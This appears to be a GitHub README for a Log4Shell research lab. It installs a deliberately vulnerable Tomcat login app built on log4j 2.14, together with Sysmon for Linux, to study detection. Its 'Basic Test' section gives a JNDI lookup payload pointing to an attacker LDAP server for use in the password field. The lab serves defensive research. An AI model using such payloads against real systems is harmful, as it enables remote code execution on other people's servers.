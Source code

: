 # Victim Server

There are several lab environments being shared in the Infosec community that are helping security researchers to test and learn more about `Log4Shell`.
However, most of them use docker containers to not only deploy the vulnerable application, but also containerize the execution of code.
From a Linux perspective, this does not help while using tools such as "[Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)" since it cannot be installed in containers yet.
I wanted to put together a research lab where I could replicate a basic real scenario with a vulnerable Web application and Sysmon for Linux running.
## Basic Setup

* [Tomcat v8.5.3](https://tomcat.apache.org/)
* Vulnerable Java Application:
    * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
    * [log4j-core v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0)
    * [log4j-api v2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0)
* [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)

## Set up Tomcat Server

SSH to your Linux VM and git clone this projet:

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
run the bash script `Install-Tomcat.sh` to install and set up a [Tomcat](https://tomcat.apache.org/) server:

```Bash
cd log4jshell-lab/victim-server/

sh Install-Tomcat.sh
```

Check if the `Tomcat` service is running properly.

```
service tomcat status
```

## Install Sysmon for Linux

Download the following Sysmon for Linux bash script to automate the installation and configuration:

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh
chmod +x Install-Sysmon-For-Linux.sh

sh Install-Sysmon-For-Linux.sh --config https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/configs/sysmon/linux/sysmon.xml
```

## Install Docker

We are going to use a Docker image to compile our vulnerable application. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

## Compile Vulnerable Application

We want to create a `.war` file to host the vulnerable aplication in our Tomcat server.

```bash
cd httpLoginForm/
docker run -it --rm -v "$(pwd)":/opt/maven -w /opt/maven maven mvn clean install
```

Copy `.war` file from the `target` folder to the Tomcat `/opt/tomcat/webapps/` folder.

```bash
cp target/VulnWebApp-1.0-SNAPSHOT.war /opt/tomcat/webapps/
```

## Finish Setup

### Restart Tomcat Service

```Bash
service tomcat stop
service tomcat start
```

### Access Vulnerable Web App

* You can simply browse to `http://localhost:8080/VulnWebApp-1.0-SNAPSHOT/` if your Linux VM has a GUI.
* If your Linux VM does not have a GUI and you can only use the terminal, you can SSH tunnel your access to your vulnerable application:

```bash
ssh -L 8080:127.0.0.1:8080 wardog@1.2.3.4
```

![](../resources/images/log4jshell-lab-vuln-webapp.png)

## Basic Test

If you have an "`attacker`" server up and running, simply craft your `JNDI Lookup` string and use it in the `password` field of the application `login form` hosted by your vulnerable application in your Tomcat server.

**Example:** `${jndi:ldap://192.168.2.6:1389/Run}`

## Reference
* https://linuxize.com/post/how-to-install-tomcat-8-5-on-ubuntu-18-04/
* https://www.digitalocean.com/community/tutorials/install-tomcat-9-ubuntu-1804